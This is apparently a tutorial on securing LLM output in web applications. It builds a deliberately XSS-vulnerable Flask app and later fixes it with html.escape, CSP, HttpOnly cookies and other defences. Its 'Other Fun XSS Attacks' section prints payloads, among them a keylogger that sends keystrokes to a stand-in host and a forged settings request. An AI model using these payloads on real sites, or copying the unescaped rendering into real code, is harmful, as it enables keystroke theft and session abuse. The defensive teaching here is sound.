


# secure-llm-output



# Securing LLM Output in Web Applications

Integrating large language models (LLMs) into web applications can drastically enhance user experience. From dynamic content generation to complex interaction handling, LLMs have become essential tools for modern web applications. However, with this capability comes an increased responsibility for developers to ensure the secure handling of AI-generated output. Improper handling of LLM output can lead to severe vulnerabilities, including cross-site scripting (XSS), data leakage, and potential exploits that compromise the integrity of applications.

This post will break down common security pitfalls in handling AI-generated output, demonstrate real-world examples of insecure output handling, and present best practices for securing AI-integrated web applications effectively.

## The Challenge of Insecure AI Output

Cross-Site Scripting (XSS) is one of the most notorious web vulnerabilities, where attackers inject malicious code into web applications. When an LLM generates responses that include unsanitized user input or dynamic code fragments, it poses a risk similar to XSS—potentially leading to compromised session information, hijacked accounts, or unauthorized actions performed within the application.

When handling AI-generated output that is dynamic and unpredictable, developers must consider how to sanitize, filter, or escape data safely to prevent unintended execution. Let’s walk through an example to understand how this can become a problem.

## Example Scenario: Flask Web App with Insecure Output Handling

To highlight how LLM output can introduce security issues, we'll build a basic web application using Flask that simulates insecure handling of AI-generated output. We'll walk through how this vulnerability can be exploited to execute harmful code directly in the browser.

### Step 1: Setting Up Your Flask Environment

Start by installing Flask:

```bash
pip install Flask
```

### Step 2: Creating an Insecure Flask App

In a new file, `app.py`, implement a basic Flask application that processes user input and displays output directly on the webpage without proper sanitization:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

HTML_TEMPLATE = """
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>LLM Insecure Output Handling Example</title>
</head>
<body>
    <h1>LLM Output Example</h1>
    <form method="post">
        <label for="user_input">Enter your prompt:</label><br>
        <input type="text" id="user_input" name="user_input"><br><br>
        <input type="submit" value="Submit">
    </form>
    <h2>Output:</h2>
    <div id="output">{{ output|safe }}</div>
</body>
</html>
"""

@app.route('/', methods=['GET', 'POST'])
def index():
    output = ""
    if request.method == 'POST':
        user_input = request.form['user_input']
        
        # Insecure handling: directly embedding user input without sanitization
        output = f"You asked: {user_input}. Here is some output: {user_input}"

    return render_template_string(HTML_TEMPLATE, output=output)

if __name__ == '__main__':
    app.run(debug=True)
```

### Step 3: Running the Application and Testing It

Run the application:

```bash
python app.py
```

Open your browser and navigate to `http://127.0.0.1:5000/`. Try entering the following input:

```html
<script>alert('Hacked!');</script>
```

Upon submitting the form, you'll notice a JavaScript alert, demonstrating how the app's failure to sanitize output allows execution of arbitrary scripts. This is a classic XSS vulnerability.




### Other Fun XSS Attacks

```html
<script>window.location.href="https://www.hackthissite.org/articles/read/799"</script>
```

```html
document.onkeypress = function(e) {
    fetch("https://malicious-site.com/keystrokes?key=" + e.key);
  };
```

```html
<script>
  fetch("/account/settings", {
    method: "POST",
    body: JSON.stringify({ theme: "dark-mode" }),
    headers: { "Content-Type": "application/json" }
  });
</script>
```

### Why Is This Dangerous?

This vulnerability is dangerous because it allows any potentially harmful input, including JavaScript, to be executed directly in the user's browser. For example:

- **User Data Exposure:** Attackers can extract sensitive data from users’ sessions.
- **Session Hijacking:** Malicious scripts can gain access to users’ cookies or authentication tokens.
- **Phishing Attacks:** Fake login forms can be injected to steal user credentials.

These risks make it crucial to handle AI-generated content with care, especially when embedding it dynamically in web applications.

## Securing the Application: Avoiding XSS with Proper Output Handling

Securing your web application requires encoding or escaping output to ensure that any potentially dangerous characters are rendered as plain text rather than executable code.

### Implementing a Secure Version

Update the `output` handling in your Flask app to use the `html.escape()` function, which converts characters like `<`, `>`, `&`, and others into safe HTML entities.

```python
import html

@app.route('/', methods=['GET', 'POST'])
def index():
    output = ""
    if request.method == 'POST':
        user_input = request.form['user_input']
        
        # Secure handling: escape the user input to prevent code execution
        output = f"You asked: {html.escape(user_input)}. Here is some output: {html.escape(user_input)}"
    
    return render_template_string(HTML_TEMPLATE, output=output)
```

### Re-Testing the Secure Version

Restart the Flask application and test the `<script>` injection again. This time, the input will be displayed as a string, and the alert will not execute. The application is now protected from XSS attacks by escaping special characters.

---

### Mitigating the Risks of XSS Attacks

Mitigating XSS risks involves a combination of best practices in code, secure configuration, and strategic frameworks. The following methods provide practical steps for securing web applications against XSS attacks, focusing on proactive and reactive defenses.

#### 1. **Input Sanitization and Validation**

Sanitizing and validating user inputs is the first step in XSS prevention. Input sanitization ensures that data entered by users is safe for the application, and validation ensures it matches the expected format.

   - **Strip HTML Tags**: Remove HTML tags from any input field where they’re not needed.
   - **Allowlisting and Blocklisting**: Allow only safe, known characters and reject unsafe ones like `<`, `>`, `"`, and `'`. Use allowlists for tighter security instead of relying solely on blocklists.
   - **Use Libraries**: Libraries like DOMPurify (for client-side JavaScript) or HTMLPurifier (for PHP) are dedicated to sanitizing inputs and can save developers from writing complex regex-based sanitizers.

#### 2. **Output Encoding**

Output encoding converts user data into a safe format before rendering it on the page, preventing browsers from executing injected scripts.

   - **HTML Encoding**: Convert characters such as `<` to `&lt;` and `>` to `&gt;` when rendering user input in HTML. This prevents the browser from interpreting these as HTML or JavaScript.
   - **JavaScript Encoding**: Use JavaScript encoding libraries or frameworks to safely render user inputs within JavaScript contexts, escaping potentially dangerous characters like quotes.
   - **Framework-Specific Encoders**: Most modern web frameworks, like Django (Python), Express (Node.js), and ASP.NET, have built-in encoders. Leveraging these instead of custom implementations often provides better security.

#### 3. **Implement Content Security Policy (CSP)**

Content Security Policy (CSP) is a powerful HTTP header that helps control which resources a browser can load and execute. CSP is essential for blocking unauthorized scripts and minimizing the damage from an XSS attack.

   - **Restrict Script Sources**: Only allow trusted scripts from your domain by setting a CSP that limits the sources of executable scripts (e.g., `script-src 'self';`).
   - **Block Inline Scripts**: Add `unsafe-inline` in CSP only if absolutely necessary. Ideally, CSP should prevent all inline JavaScript.
   - **Report Violations**: Configure CSP to report any policy violations by adding a `report-uri` directive. This can help identify attempted XSS attacks early.

#### 4. **Use HTTP-Only and Secure Cookies**

HTTP-only cookies prevent JavaScript from accessing sensitive information stored in cookies, such as session tokens, making it harder for attackers to hijack user sessions via XSS.

   - **Set Cookies as HTTP-Only**: By setting cookies to HTTP-only, they’re only accessible by the server and not through client-side scripts.
   - **Use Secure Flag**: Set the secure flag on cookies to ensure they are only sent over HTTPS, adding an additional layer of protection.

#### 5. **Leverage Web Application Firewalls (WAFs)**

A Web Application Firewall (WAF) inspects incoming requests and can detect and block suspicious inputs, providing another layer of defense against XSS.

   - **Enable XSS Filters**: Many WAFs offer XSS filtering capabilities that automatically block requests containing known XSS patterns.
   - **Custom Rules**: Consider configuring custom rules based on your application’s needs. WAFs like AWS WAF, Cloudflare WAF, and ModSecurity can be tailored to specific attack patterns.

#### 6. **Escape Dynamic Content in Templates**

Templates render dynamic content from the server into HTML, and any unsanitized data can introduce XSS vulnerabilities. Use template engines with built-in escaping to render content safely.

   - **Template Engines**: Template engines such as EJS, Handlebars, Jinja, and Thymeleaf automatically escape variables in HTML contexts. Make sure auto-escaping is enabled.
   - **Contextual Encoding**: Use encoding that matches the context, such as CSS, URL, or JavaScript encoding, to prevent data interpreted as scripts or styles.

#### 7. **Regular Security Audits and Code Reviews**

XSS vulnerabilities can often arise from overlooked code or insecure dependencies. Regular code audits and security testing help identify and fix these vulnerabilities.

   - **Automated Scanners**: Use automated scanning tools like OWASP ZAP, Burp Suite, or Acunetix to detect XSS vulnerabilities. Schedule regular scans as part of the development lifecycle.
   - **Code Reviews**: Encourage peer reviews with a focus on security, especially for parts of code that handle user input.
   - **Security Training**: Provide developers with security training on XSS, including how to spot potential vulnerabilities and the best practices to avoid them.

#### 8. **Use Modern Frameworks and Libraries**

Modern frameworks come with built-in security features that handle many XSS issues. Using a reputable framework can minimize the need for custom solutions.

   - **React and Angular**: Frameworks like React and Angular sanitize outputs by default when rendering variables, reducing the risk of XSS.
   - **Vue’s Double-Mustache Syntax**: Vue’s `{{ }}` syntax auto-escapes HTML characters, preventing XSS vulnerabilities from being introduced when rendering user input.

Defending against XSS attacks requires a layered approach, combining input sanitization, output encoding, policy enforcement, and proactive security practices. By following these steps, developers can create a secure environment that reduces the risk of XSS vulnerabilities, protects user data, and minimizes the impact of potential attacks.

## Conclusion

Incorporating AI-generated content into web applications brings exciting opportunities, but it also raises new security concerns. This guide has demonstrated how insecure handling of LLM output can lead to vulnerabilities such as XSS, compromising user data and application integrity. By following secure coding practices—such as escaping HTML characters, implementing CSPs, and conducting regular security audits—developers can build applications that leverage AI safely and responsibly.

As AI models become more advanced and integrate deeper into web ecosystems, new security challenges will continue to emerge. Staying ahead of these challenges requires a proactive approach to security—starting from development and continuing through production monitoring and testing. Secure your AI-driven applications, and ensure that the power of generative AI is harnessed safely without compromising user trust.

By embracing these practices, you can build intelligent, secure, and user-centric applications that deliver meaningful experiences while keeping users safe.


